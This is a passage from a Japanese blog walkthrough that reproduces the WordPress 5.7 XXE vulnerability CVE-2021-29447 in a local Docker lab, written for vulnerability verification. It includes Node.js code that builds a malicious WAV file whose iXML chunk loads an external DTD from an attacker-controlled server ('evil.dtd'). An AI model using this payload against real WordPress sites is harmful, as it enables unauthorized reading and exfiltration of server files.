 　下のリポジトリ内のコードを用いて脆弱性の検証を行っていきます。

[https://github.com/motikan2010/CVE-2021-29447:embed:cite]

###  WordPressの起動

　Dockerで攻撃対象となる WordPress を起動します。WordPressのバージョンは 5.7 です。  
そして初期設定としてサイト名や管理者アカウント情報などを設定します。

<div class="md-code" style="width:100%">
```
$ make up-wp
docker-compose up
Creating network "cve-2021-29447_default" with the default driver
Creating cve-2021-29447_db_1 ... done
Creating cve-2021-29447_wordpress_1 ... done
Attaching to cve-2021-29447_db_1, cve-2021-29447_wordpress_1
```
</div>

### アカウントの確認

　検証で使用するアカウントを作成します。

　メディアをアップロードできるロールの中で一番権限の弱い「投稿者 (Author)」アカウントを作成します。  

[f:id:motikan2010:20210417214748p:plain:w700]

### 攻撃用WAVファイルの生成

　iXML チャンク部分に攻撃コードを含んだ WAVファイル(.wav) を作成していきます。  

　iXML チャンクを操作するために `wavefile` というnpmライブラリを使いました。  

[https://github.com/rochars/wavefile#xml-chunks:embed:cite]

　WAVファイルを生成するコードは下のようになっています。

　`setiXML`関数の引数に iXML チャンクの内容を記述します。攻撃者Webサーバの DTDファイルを取得するXMLを定義しています。

<div class="md-code" style="width:100%">
```javascript
const fs = require('fs');
const wavefile = require('wavefile');

let wav = new wavefile.WaveFile();
wav.fromScratch(1, 44100, '32', [0, -2147483, 2147483, 4]);
wav.setiXML('<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM \'http://host.docker.internal:8001/evil.dtd\'>%remote;%init;%trick;]>');
fs.writeFileSync('malicious.wav', wav.toBuffer());
```
</div>

　作成した`malicious.wav`に攻撃コードが含まれていることが確認できます。
[f:id:motikan2010:20210417214815p:plain:alt=WAVファイルの生成:w700]

　ちなみに iXML チャンクの説明は以下の通り。ファイルのメタデータを格納する領域とのこと。
